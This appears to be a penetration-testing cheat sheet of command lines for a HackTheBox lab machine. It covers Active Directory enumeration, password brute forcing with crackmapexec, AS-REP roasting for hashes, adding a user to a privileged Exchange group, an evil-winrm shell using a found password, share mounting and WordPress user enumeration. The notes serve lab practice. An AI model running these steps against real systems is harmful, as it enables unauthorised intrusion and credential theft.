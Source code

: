     or rpcclient -U '' 10.10.10.161 than enumdomusers<hit tab twice list all the commands> than queryser 'rid'

-   ./windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U
    ./windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*

-   crackmapexec smb 10.10.10.161 --pass-pol <check password policy for lockout>
    or crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
-   crackmapexec smb 10.10.10.161 -u users.ldap -p wordlist <bruteforce>

-   crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares<list shares>

-   python3 GetNPUsers.py -request htb.local/ -dc-ip 10.10.10.161<if preauth is disable grants us a TGT> tha -format hashcat<to crack>

-   creating users:
    net user siko siko123 /add /domain
    net group "Exchange Windows Persmissions" /add siko
-   use powersploit

### **WINRM (5985/):**

./evil-winrm.rb -u svc-alfresco -p s3rvice -i 10.10.10.161<get PS shell>

### **Mounting File Share**

-   showmount -e IPADDR

-   mount 192.168.1.1:/vol/share /mnt/nfs  -nolock

    -   mounts the share to /mnt/nfs without locking it
-   mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs

    -   Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you
        remove password it will prompt on the CLI (more secure as it
        wont end up in bash\_history)
-   net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no

    -   Mount a Windows share on Windows from the command line
-   apt-get install smb4k --y

    -   Install smb4k on Kali, useful Linux GUI for browsing SMB shares

### **Fingerprinting:  Basic versioning / finger printing via displayed banner**

-   nc -v 192.168.1.1 25

-   telnet 192.168.1.1 25

### **Wordpress**

    Scanning website:
-   wpscan --url http://10.10.176.119/retro/
    Scanning users:
-   wpscan --url http://10.10.176.119/retro/ --enumerate u
